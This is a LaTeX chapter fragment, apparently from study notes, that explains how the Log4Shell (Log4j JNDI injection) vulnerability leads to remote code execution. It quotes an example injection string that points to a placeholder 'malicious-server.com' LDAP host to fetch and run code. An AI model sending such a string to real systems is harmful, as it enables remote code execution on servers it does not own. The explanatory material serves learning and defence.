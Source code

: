 \chapter{Attack Pattern, Techniques and Prevention Methods}
\newpage
\section{Attacks}
\subsection{Common Attack Techinques}
\begin{itemize}
    \item RCE - Remote Code Execution
    \item Log4J
    \begin{itemize}
        \item The Log4j vulnerability (Log4Shell) works through JNDI (Java Naming and Directory Interface) injection. Here's how it works:
        \item Log4j had a feature that would interpret strings containing "\${jndi:}" as a command to fetch and execute code from a remote server.
        \item Attackers could exploit this by getting Log4j to log a specially crafted string like: \${jndi:ldap://malicious-server.com/payload}
        \item Interpret the JNDI lookup string
        \item Make a connection to the attacker's LDAP server
        \item Download and execute the Java code hosted there
        \item This code would run with the same privileges as the Java application
        \item It required almost no prerequisites to exploit
        \item The malicious string could be passed through many common fields (user agent strings, login forms, etc.)
        \item Log4j was extremely widespread in Java applications
        \item Getting the system to log the string was enough to trigger the exploit
        \begin{center}
            \includegraphics[scale=0.5]{resources/15-appendix-log4j.png}

\end{center}
\end{itemize}
\end{itemize}
